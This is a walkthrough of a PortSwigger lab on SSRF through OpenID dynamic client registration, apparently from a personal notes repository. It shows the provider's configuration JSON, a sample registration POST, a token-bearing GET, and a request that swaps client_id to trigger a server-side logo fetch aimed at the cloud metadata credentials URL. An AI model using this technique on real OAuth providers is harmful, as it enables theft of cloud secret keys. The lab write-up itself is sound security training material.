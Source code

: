 
# SSRF via OpenID dynamic client registration

This lab allows client applications to dynamically register themselves with the OAuth service via a dedicated registration endpoint. Some client-specific data is used in an unsafe way by the OAuth service, which exposes a potential vector for SSRF.

To solve the lab, craft an SSRF attack to access http://169.254.169.254/latest/meta-data/iam/security-credentials/admin/ and steal the secret access key for the OAuth provider's cloud environment.

You can log in to your own account using the following credentials: wiener:peter

Note: To prevent the Academy platform being used to attack third parties, our firewall blocks interactions between the labs and arbitrary external systems. To solve the lab, you must use Burp Collaborator's default public server.


---------------------------------------------

References: 

- https://portswigger.net/web-security/oauth/openid



![img](images/SSRF%20via%20OpenID%20dynamic%20client%20registration/1.png)

---------------------------------------------

We can read the configuration file in the path /.well-known/openid-configuration of the Oauth domain:



![img](images/SSRF%20via%20OpenID%20dynamic%20client%20registration/2.png)

```
{"authorization_endpoint":"https://oauth-0a76003403dd792f81c9abe702320017.oauth-server.net/auth",
"claims_parameter_supported":false,"claims_supported":["sub","name","email","email_verified","sid","auth_time","iss"],"code_challenge_methods_supported":["S256"],"end_session_endpoint":"https://oauth-0a76003403dd792f81c9abe702320017.oauth-server.net/session/end","grant_types_supported":["authorization_code","refresh_token"],"id_token_signing_alg_values_supported":["HS256","ES256","EdDSA","PS256","RS256"],"issuer":"https://oauth-0a76003403dd792f81c9abe702320017.oauth-server.net","jwks_uri":"https://oauth-0a76003403dd792f81c9abe702320017.oauth-server.net/jwks","registration_endpoint":"https://oauth-0a76003403dd792f81c9abe702320017.oauth-server.net/reg","response_modes_supported":["form_post","fragment","query"],"response_types_supported":["code"],"scopes_supported":["openid","offline_access","profile","email"],"subject_types_supported":["public"],"token_endpoint_auth_methods_supported":["none","client_secret_basic","client_secret_jwt","client_secret_post","private_key_jwt"],"token_endpoint_auth_signing_alg_values_supported":["HS256","RS256","PS256","ES256","EdDSA"],"token_endpoint":"https://oauth-0a76003403dd792f81c9abe702320017.oauth-server.net/token","request_object_signing_alg_values_supported":["HS256","RS256","PS256","ES256","EdDSA"],"request_parameter_supported":false,"request_uri_parameter_supported":true,"require_request_uri_registration":true,"userinfo_endpoint":"https://oauth-0a76003403dd792f81c9abe702320017.oauth-server.net/me","userinfo_signing_alg_values_supported":["HS256","ES256","EdDSA","PS256","RS256"],"introspection_endpoint":"https://oauth-0a76003403dd792f81c9abe702320017.oauth-server.net/token/introspection","introspection_endpoint_auth_methods_supported":["none","client_secret_basic","client_secret_jwt","client_secret_post","private_key_jwt"],"introspection_endpoint_auth_signing_alg_values_supported":["HS256","RS256","PS256","ES256","EdDSA"],"revocation_endpoint":"https://oauth-0a76003403dd792f81c9abe702320017.oauth-server.net/token/revocation","revocation_endpoint_auth_methods_supported":["none","client_secret_basic","client_secret_jwt","client_secret_post","private_key_jwt"],"revocation_endpoint_auth_signing_alg_values_supported":["HS256","RS256","PS256","ES256","EdDSA"],"claim_types_supported":["normal"]}
```

The registration endpoint is https://oauth-0a76003403dd792f81c9abe702320017.oauth-server.net/reg. We can register using a POST request like this:

```
POST https://oauth-0a76003403dd792f81c9abe702320017.oauth-server.net/reg HTTP/2
Host: oauth-0a76003403dd792f81c9abe702320017.oauth-server.net
...

{
    "application_type": "web",
    "redirect_uris": [
        "https://client-app.com/callback",
        "https://client-app.com/callback2"
        ],
    "client_name": "My Application",
    "logo_uri": "https://client-app.com/logo.png",
    "token_endpoint_auth_method": "client_secret_basic",
    "jwks_uri": "https://client-app.com/my_public_keys.jwks",
    "userinfo_encrypted_response_alg": "RSA1_5",
    "userinfo_encrypted_response_enc": "A128CBC-HS256"
}
```



![img](images/SSRF%20via%20OpenID%20dynamic%20client%20registration/3.png)


We can retrieve the information with a GET request using the client uri and the access token:

```
GET https://oauth-0a76003403dd792f81c9abe702320017.oauth-server.net/reg/2KNEf4dJKOmBdXye_KEhK?access_token=6G8_0Ow8SO_MDIBo4h8J23k9WsLmZCjY9AiWEM0j26v
```



![img](images/SSRF%20via%20OpenID%20dynamic%20client%20registration/4.png)


We can set the URIs to the one we want to obtain:



![img](images/SSRF%20via%20OpenID%20dynamic%20client%20registration/5.png)


During the login process there was a request to get the application logo:



![img](images/SSRF%20via%20OpenID%20dynamic%20client%20registration/6.png)


We can change the client_id for the one of the new application:

```
GET /client/m7xK68ZFDecUNKJ6U91xk/logo
```



![img](images/SSRF%20via%20OpenID%20dynamic%20client%20registration/7.png)